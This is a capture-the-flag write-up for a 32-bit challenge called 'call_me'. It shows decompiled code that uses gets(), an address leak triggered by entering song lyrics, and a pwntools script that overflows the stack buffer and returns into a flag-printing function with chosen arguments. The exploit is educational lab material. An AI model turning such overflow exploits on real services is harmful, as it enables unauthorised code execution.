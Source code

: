 # call_me

```
As the name suggests, you should probably call some function (with the correct arguments) to make the service print a flag. Are there any other flags? Maybe...
```
  
In order to understand what the executable would normally do I tried to run it and when prompted I inserted random values.
Doing so I finally got this message outputted

```
Wow, you do know the song! However, you did not solve the challenge :-(
```

Reading this I thought that maybe some pattern matching was executed against the input looking for a specific song's lyrics.
Leveraging this I opened the file with Ghidra looking for something related.
Analysing the functions I found one with an interesting body

```c
void FUN_000111ed(int param_1,int param_2,int param_3)
{
	printf("BASC{");
	if (param_1 != 0xb100d) {
	    exit(1);
	}
	printf("you_g0t_");
	if (param_2 != 0x5e1ec7ed) {
	    exit(2);
	}
	printf("the_args_");
	if (param_3 != 0x7ea) {
        exit(3);
	}
	puts("right}.");
        exit(0x2a);
	}
}
```

This functions seemed to print a flag if some specific parameters where passed.
To better understand what was going on I used the functionality to show the functions' calls tree.
Doing so I discovered that the "print_flag" function was called by another one 

```c
void FUN_000112f8(void)
{
	char *pcVar1;
	int iVar2;
	char acStack_bd [165];
	size_t local_18;
	int local_14;
	int local_10;
  
	local_10 = 0;
	local_14 = 0;
	while( true ) {
	    if ((&PTR_s_Color_me_your_color,_baby_00014020)[local_14] == (undefined *)0x0) {
			puts("Wow, you do know the song! However, you did not solve the challenge :-(");
			return;
	    }
	    printf("Enter line #%d: ",local_14 + 1);
	    pcVar1 = gets(acStack_bd + 1);
	    if (pcVar1 == (char *)0x0) break;
	    local_18 = strlen(acStack_bd + 1);
	    if (0x50 < local_18) {
	      return;
	    }
	    if ((local_18 != 0) && (acStack_bd[local_18] == '\n')) {
	      acStack_bd[local_18] = '\0';
	    }
	    iVar2 = strcmp(acStack_bd + 1,(&PTR_s_Color_me_your_color,_baby_00014020)[local_14]);
	    if (iVar2 == 0) {
	      local_10 = local_10 + 1;
	      if (local_10 == 3) {
	        printf("&target=%p\n",print_flag);
	      }
	    }
	    else {
	      local_10 = local_10 + -1;
	    }
	    local_14 = local_14 + 1;
	  }
  return;
}
```

This function was actually the one that prompted the user to insert the song's lyrics and looking at the line 

```c
printf("Enter line #%d: ",local_14 + 1);
```

I understood that the variable **local_14** held a index that kept track the current song's lyrics line that would be later on compared with the one inserted by the user

```c
iVar2 = strcmp(acStack_bd + 1,(&PTR_s_Color_me_your_color,_baby_00014020)[local_14]);
```

If the comparison was successful the variable **local_10** would be incremented and when the value 3 was reached it should leak the address of the **print_flag** function.
So in order to get the address I had to insert three correct lines of the song's lyrics

```
> nc 192.168.20.1 5110
Enter line #1: Color me your color, baby
Enter line #2: Color me your car
Enter line #3: Color me your color, darling
&target=0x5664a1ed
```

Knowing this I could finally exploit the program through the **gets** function vulnerability.

```c
pcVar1 = gets(acStack_bd + 1);
```

It is possible to conduct a buffer overflow attack pretty easily figuring out the offset necessary to fill the **acStack_bd** variable ( e.g. using a cyclic pattern ) and then returning to the dynamically leaked function's address.
I had also to pass the correct parameters leaked by the **print_flag** function in order to get the flag.
Adding a 4 bytes offset between the function address and the parameters was necessary due to the architecture calling convention.

```python
p = pwn.remote(HOST, PORT)
p.recvuntil(b":")
p.sendline(b"Color me your color, baby")
p.recvuntil(b":")
p.sendline(b"Color me your car")
p.recvuntil(b":")
p.sendline(b"Color me your color, darling")
leaked_address = p.recvuntil(b"target=")
leaked_address = p.recvline().strip().decode()
p.sendline(
	b"a" * OFFSET
	+ pwn.p32(int(leaked_address, 16))
	+ b"a" * 4
	+ pwn.p32(int(FIRST_PARAM, 16))
	+ pwn.p32(int(SECOND_PARAM, 16))
	+ pwn.p32(int(THIRD_PARAM, 16))
)
p.interactive()
```

Doing so I was able to get the first flag

```
BASC{you_g0t_the_args_right}
```



